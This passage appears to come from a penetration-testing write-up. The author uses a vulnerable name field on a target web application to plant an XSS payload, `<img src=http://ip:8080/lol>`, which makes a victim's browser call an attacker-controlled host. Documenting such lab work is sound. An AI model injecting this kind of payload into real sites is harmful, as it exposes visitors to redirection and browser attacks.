 ![](img/10.png)

Based on the information above, the module will generate an URL and the victim has to visit the URL. So, I quickly think about exploiting the XSS vulnerability to redirect the victim to the URL.

On the target web application (the name field is vulnerable to XSS), I added `<img src=http://ip:8080/lol>` as the XSS payload:

![](img/11.png)
